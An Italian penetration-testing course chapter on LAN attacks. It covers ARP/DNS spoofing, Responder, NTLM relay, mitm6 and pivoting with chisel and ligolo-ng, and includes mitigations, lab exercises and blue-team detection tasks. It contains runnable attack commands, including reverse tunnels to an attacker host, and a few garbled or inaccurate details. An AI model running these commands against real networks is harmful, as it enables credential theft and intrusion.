


# Network attacks

> In una posizione di rete (LAN, WiFi, segmento interno) hai accesso a un coltello tagliente. La sicurezza del traffico cleartext crolla; molte autenticazioni Windows cadono. Capire questi attacchi è importante anche per difendere.

## Posizionarsi nella rete

Modi tipici di "essere in mezzo":
- Cavo Ethernet in azienda (con NAC 802.1X disabilitato o bypassabile).
- WiFi pubblico/aziendale (vedi sezione 20).
- Rogue access point (evil twin).
- Compromissione di un host (e poi "pivoting" interno).
- VPN ottenuta (credenziali stolen, no MFA).
- Container/VM nel datacenter di un'org.

## ARP spoofing e MITM in LAN

Già visto principio in sezione 3. Tool moderno: **bettercap**.

```bash
sudo bettercap -iface eth0
# nel REPL:
> net.probe on        # scopre host nel segmento
> net.show
> set arp.spoof.fullduplex true
> set arp.spoof.targets 192.168.1.50      # la vittima
> arp.spoof on
> net.sniff on        # cattura
> http.proxy on       # MITM HTTP
> https.proxy on      # MITM HTTPS (con il proprio cert)
```

Senza il certificato della tua CA installato sulla vittima, HTTPS dà errore. Quindi MITM su HTTPS richiede:
- Cert CA di bettercap importato (es. lab con BYOD).
- Vittima ignora warning (raro, ma in scenari sociali...).
- Bug nel client (vedi attacchi storici come ZombieLoad / NSLookup di cert errati).

### Caps spec sniffing
Anche solo passive, in LAN switched ARP-spoofed: tutto cleartext (HTTP, FTP, IMAP/POP3 senza TLS, syslog) finisce sotto il tuo Wireshark. Identifica password, token in URL, cookie, file scaricati.

### Difese
- **DHCP snooping + DAI** (Dynamic ARP Inspection) sugli switch enterprise.
- **NAC 802.1X**: porta a connettersi serve auth.
- **VLAN segmentation**.
- **Static ARP** su host critici (server).
- **HSTS + HTTPS ovunque**: rende MITM TLS molto più difficile.
- **DNSSEC + DoH/DoT** per evitare DNS spoof.

## DNS spoofing/poisoning

In LAN con ARP spoof attivo, intercetta query DNS e rispondi con IP attaccante.

```bash
# in bettercap
> set dns.spoof.domains *.example.com
> set dns.spoof.address 192.168.1.99   # tuo IP
> dns.spoof on
```

Vittima naviga su example.com → finisce sul tuo server.

Più realisticamente in red team: **cache poisoning** del resolver aziendale via Kaminsky-style (mitigato da source port random) o via **subdomain takeover** (CNAME punta a un servizio dismesso). Più frequente è il **rogue DHCP** che imposta DNS server attacker.

## DHCP rogue / starvation

```bash
# Yersinia / mitm6 / Ettercap hanno modalità DHCP attack.
# DHCP starvation: esaurisci il pool del DHCP legitimate
> dhcp6.spoof on
```

Una volta diventato DHCP server di una vittima → controlli IP, gateway, DNS, **WPAD URL**, NTP.

### Attacco WPAD
WPAD (Web Proxy Auto-Discovery) cerca il file `wpad.dat` su `http://wpad/wpad.dat`. Se hai rogue DHCP/DNS → vittima fetcha il tuo wpad → tu sei proxy HTTP/S → MITM. Anche storicamente "Bad Tunnel" (CVE-2016-3213) abusava di WPAD via NetBIOS.

## LLMNR / NBT-NS / mDNS poisoning con Responder

In rete Windows mal configurata, quando un host cerca `\\fileserver` ma DNS non risolve, fa **fallback broadcast**: LLMNR (UDP 5355) e NBT-NS (UDP 137). Chiunque sulla LAN può rispondere "sono io". Lo strumento canonico: **Responder**.

```bash
sudo responder -I eth0 -wv
```

Quando la vittima si autentica al tuo "fileserver" (sì, Windows lo fa di default con le sue credenziali correnti), ricevi un **NTLMv2 challenge-response**. Lo metti in hashcat:

```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

In 1 minuto su GPU, le password deboli vengono fuori.

### NTLM Relay
Anziché crackare, **inoltri** l'autenticazione a un altro servizio dove l'utente ha accesso. Tool: **ntlmrelayx.py** (impacket).



```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

Combinato con Responder, l'utente NTLM finisce relayato a un server SMB dove ha accesso → tu prendi comando di quel server.

Per essere coronato:
- SMB signing disabilitato sul target (SMB1/SMB2 senza signing) o SMB signing abilitato ma non *required* per relay attivo.
- Spesso bersagliato: SMB → Domain Controller (DCSync), LDAP → AD WriteAccess, MSSQL.

### Mitigazione LLMNR/NBT-NS
- **Disabilita LLMNR** (GPO).
- **Disabilita NBT-NS** (PowerShell o GPO via NetBIOS over TCP/IP "Disabled").
- **SMB signing required** ovunque.
- **Channel binding (EPA)** per LDAP/HTTP.
- Difese in Windows 11/Server 2022: SMB over QUIC, LDAP signing, NTLM relay protection.

## IPv6 attacks con mitm6

Anche se non usi IPv6, ce l'hai abilitato e Windows lo preferisce. **mitm6** sfrutta DHCPv6 per registrare lui stesso come DNS server della vittima.

```bash
sudo mitm6 -d example.local
sudo ntlmrelayx -6 -wh wpad.example.local -t ldaps://dc.example.local
```

Risultato: vittima cerca WPAD via tuo DNS → fa auth NTLM → relayata a LDAPS sul DC → tu crei un utente nuovo o aggiungi un membro a un gruppo privilegiato.

### Mitigazione
- **Disabilita IPv6** se davvero non lo usi (e capisci le conseguenze) o
- **DHCPv6 guard** sugli switch + RA guard.
- **LDAP signing + channel binding** sui DC.

## SSL strip (storico)

L'attaccante MITM. Vittima fa `GET http://bank.com`, server redirige a `https://bank.com`. Attaccante: lascia HTTP, dialoga in HTTPS col server, riscrive contenuti. Vittima non vede il lucchetto.

Mitigazione: **HSTS** (e meglio se in preload list).

## Evil twin WiFi

Crei un AP con stesso SSID dell'aziendale o dell'hotel. I device che hanno la rete salvata si attaccano al più potente.

Tool: **hostapd**, **WiFi Pumpkin 3**, **airgeddon**.

Combinato con captive portal phishing-flavored → credential harvesting.

In WPA2-Enterprise (802.1X EAP) → **EAP downgrade attacks** (`hostapd-wpe` con cert self-signed → MS-CHAPv2 handshake catturato → `asleap`/`crack.sh` per recuperare NT hash).

Dettagli in sezione 20.

## Pivoting — l'arte del muovere

Da un foothold (host compromesso) raggiungere host non instradabili da fuori.

### SSH dynamic tunnel (SOCKS5)
Già visto. La tua attacker box ha SSH legitime nella rete vittima → `ssh -D 1080 user@compromised`. Configurazione proxychains o foxyproxy → tutto il tuo traffico passa per il proxy.

```bash
# /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 1080
```

```bash
proxychains nmap -sT -Pn 10.10.50.0/24
proxychains curl http://10.10.50.5:8080
```

### Local/Remote SSH forwarding
- **Local (-L)**: porta locale → host remoto. `ssh -L 8080:internal-app:80 user@jump`.
- **Remote (-R)**: porta sul jump → tuo localhost. Utile per esporre un servizio sulla tua attacker macchina al jump server.

### chisel
Server/client in Go. Stabilisce un tunnel su HTTP/WebSocket → bypassa egress filtering basato solo su porte.

```bash
# server (sulla tua attacker VPS o Kali)
chisel server -p 8000 --reverse

# client (su compromised host)
chisel client http://attacker:8000 R:1080:socks
```

Crea un tunnel reverse SOCKS5: ti connetti al tuo localhost:1080 e attraversi la rete interna.

### ligolo-ng (moderno) — perché supera proxychains

**Problema con proxychains/SOCKS**: ogni tool che usi deve **sapere parlare SOCKS** (alcuni sì come curl `--socks5`, altri no come `arping`, `mtr`, traceroute raw). proxychains *intercetta* le syscall `connect()` e le redirige, ma:
- non gestisce ICMP (niente ping/traceroute).
- non gestisce raw socket (niente sniffing).
- non gestisce UDP (a meno di SOCKS5 con UDP, raramente supportato).
- ogni tool a volte chiude e riapre connessioni → lento.

**ligolo-ng** risolve **a livello L3**: crea una **tun interface** sulla tua Kali, e quando ci routi traffico, il kernel lo manda nel tunnel WireGuard-like fino all'agent compromesso, che lo "spedisce" come traffico vero della rete interna.

#### Cos'è una tun interface (la parte sottintesa)

Una **tun interface** è una **scheda di rete virtuale** vista dal kernel come una NIC normale. Differenza:
- **tap** = livello 2 (Ethernet frame).
- **tun** = livello 3 (pacchetto IP).

Quando il kernel scrive su `tun0`, il pacchetto non finisce su un cavo: arriva a **un processo userland** che ha aperto `/dev/net/tun`. Quel processo decide cosa farci (forward, log, mangle, tunnel).



#### Setup ligolo-ng a 30 secondi

```bash
# attacker
./ligolo-ng -selfcert
# (REPL: session, start)

# agent on victim
./agent -connect attacker:11601 -ignore-cert
```

Sulla tua macchina vedi una nuova interface; `ip route add 10.10.50.0/24 dev ligolo` → tutti i tuoi tool funzionano come se fossi dentro. **Game changer** rispetto a proxychains: niente più "questo tool non supporta SOCKS".

### sshuttle (poor man's VPN su SSH)
```bash
sshuttle -r user@jump 10.10.0.0/16
```

VPN-like su SSH, senza richiedere root sul remoto (solo sul client).

### Pivoting Windows
- **netsh portproxy**: `netsh interface portproxy add v4tov4 listenport=445 listenaddress=0.0.0.0 connectport=445 connectaddress=10.10.50.5`.
- **PowerShell Invoke-PortFwd**.
- **plink** (PuTTY CLI) per SSH dinamico da Windows compromesso.
- **Cobalt Strike SOCKS**, **Sliver pivoting**.

## Bluetooth / Zigbee / BLE / 4G (cenni)

Sezione 20 li approfondisce. Concetti:
- BLE pairing modes (Just Works, Passkey, OOB) — Just Works è MITM-able.
- BlueBorne (2017), BIAS, KNOB.
- Zigbee key exchange in clear (in alcune implementazioni).
- IMSI catcher (Stingray) — illegali in molte giurisdizioni.

## Esercizi

### Esercizio 12.1 — ARP spoofing in lab
In lab isolato con 3 VM (attacker, vittima, gateway):
1. Da attacker, `bettercap -iface eth0`, attiva arp.spoof.
2. Su vittima, `arp -a` prima e dopo. Cosa cambia?
3. Da attacker `net.sniff`. Genera traffico HTTP sulla vittima. Lo vedi?
4. Su vittima, abilita "Static ARP entry" per il gateway. L'attacco continua?

### Esercizio 12.2 — Responder + crack
In lab con un Domain Controller + workstation:
1. Lancia `responder -I eth0` su attacker.
2. Su workstation, accedi a `\\fakeserver\share` (deve fallire, ma genera la query).
3. Cattura NTLMv2 hash.
4. `hashcat -m 5600 -a 0 hashes.txt rockyou.txt`.
5. Quanti hash deboli vengono crackati?

### Esercizio 12.3 — NTLM relay
Sempre in lab AD:
1. Setup: SMB signing **non** required su una workstation (config GPO).
2. `ntlmrelayx -tf targets.txt -smb2support`.
3. `responder` con `-r off -P off -d off` (disabilita SMB su Responder, lo gestisce ntlmrelayx).
4. Trigga il login: l'utente compromesso ottieni dump SAM remoto o esegui commands.

### Esercizio 12.4 — mitm6 + relay
Lab AD. Esegui:
```bash
sudo mitm6 -d example.local --no-ra
sudo ntlmrelayx -6 -wh wpad.example.local -t ldaps://dc.example.local --add-user
```

Spiega cosa succede. Quale azione fa `--add-user`?

### Esercizio 12.5 — Pivoting con chisel
Setup:
- Attacker: 192.168.1.10 (Kali).
- Pivot host: 192.168.1.20 (compromised).
- Internal: 10.10.50.0/24 (raggiungibile solo dal pivot).

Setup chisel reverse SOCKS dal pivot al Kali. Da Kali, `proxychains nmap -sT 10.10.50.5`. Funziona?

### Esercizio 12.6 — ligolo-ng end to end
Stesso scenario. Setup ligolo-ng tun mode. Dalla Kali, accedi a un servizio HTTP su 10.10.50.5:8080 *senza* proxychains. Differenza pratica?

### Esercizio 12.7 — TryHackMe rooms
- "Mr Robot" — buona pratica AR/network.
- "Wreath" — pivoting esplicito.
- "Network Services" / "Network Services 2".

### Esercizio 12.8 — Detection lato blue team
Su una rete con Suricata IDS, configura regole per:
- ARP anomaly (più di 5 gratuitous ARP/min da stesso MAC).
- LLMNR/NBT-NS attivi.
- DHCPv6 unexpected.
- Outbound chisel/ligolo over HTTP/WebSocket (signature distintive?).

Discuti: quale di questi è facile detectare? Quale praticamente invisibile?

## Concetti chiave

1. **In LAN switched**, ARP è la chiave per "essere in mezzo".
2. **Responder + ntlmrelayx** sono il pane di pentest interno Windows.
3. **LLMNR/NBT-NS/mDNS** → disabilitare in Windows enterprise.
4. **IPv6 mitm6** spesso ignorato → game-over in AD.
5. **Pivoting moderno: chisel + ligolo** — superano proxychains.
6. **SMB signing required + LDAP signing + channel binding** = base hardening AD anti-relay.
7. **HTTPS+HSTS** rende MITM L7 difficile; resta L2/L3 e l'auth.

Avanti: il mondo Active Directory in dettaglio.
